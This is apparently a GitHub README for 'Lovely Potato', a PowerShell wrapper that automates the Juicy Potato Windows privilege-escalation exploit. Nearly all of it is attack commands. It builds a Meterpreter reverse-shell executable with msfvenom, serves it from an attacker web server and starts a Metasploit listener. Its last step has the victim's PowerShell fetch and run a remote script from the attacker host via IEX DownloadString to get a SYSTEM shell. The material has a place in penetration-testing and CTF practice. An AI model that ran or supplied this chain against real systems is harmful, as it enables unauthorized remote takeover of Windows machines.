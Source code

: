 # Lovely Potato (automating juicy potato)
*Powershell wrapper of [Decoder's JuicyPotato][1] for easy exploitation. **This entirely depends on the [original Juicy Potato binary][2] and utilizes [his test_clsid.bat][3].***

## Quick Guide
First clone this repo to your attacker machine which already has all of required dependencies:
```
root@attacker:~# git clone https://github.com/TsukiCTF/Lovely-Potato.git
root@attacker:~# cd Lovely-Potato
```
Then modify the two following variables in 'Invoke-LovelyPotato.ps1' as below (attacker machine IP, writable path on the victim machine):
```
$RemoteDir = "http://[AttackerIP]
$LocalPath = "[WritablePathOnVictimMachine]"
```
Now create a meterpreter binary on the attacker machine or use any other executable reverse shell:
```
root@attacker:~/Lovely-Potato# msfvenom -p windows/meterpreter/reverset_tcp LHOST=[AttackerIP] LPORT=[AttackerPort] -f exe -o meterpreter.exe
```
Start a web server in this repo to serve your meterpreter.exe and other dependencies:
```
root@attacker:~/Lovely-Potato# python3 -m http.server 80
```
On a new terminal, launch metasploit console (or any listener which handles whatever you are serving as a reverse shell):
```
root@attacker:~# msfdb run
msf5 > # I'm going to omit setting up the multi handler as it is something you should already know
```
Finally enter below command on victim's powershell console and wait 5 minutes for reverse shell running as user NT AUTHORITY\SYSTEM!!
```
PS > IEX(New-Object Net.WebClient).DownloadString('http://[AttackerIP]/Invoke-LovelyPotato.ps1')
```

[1]: https://github.com/ohpe/juicy-potato
[2]: https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts
[3]: https://github.com/ohpe/juicy-potato/blob/master/Test/test_clsid.bat
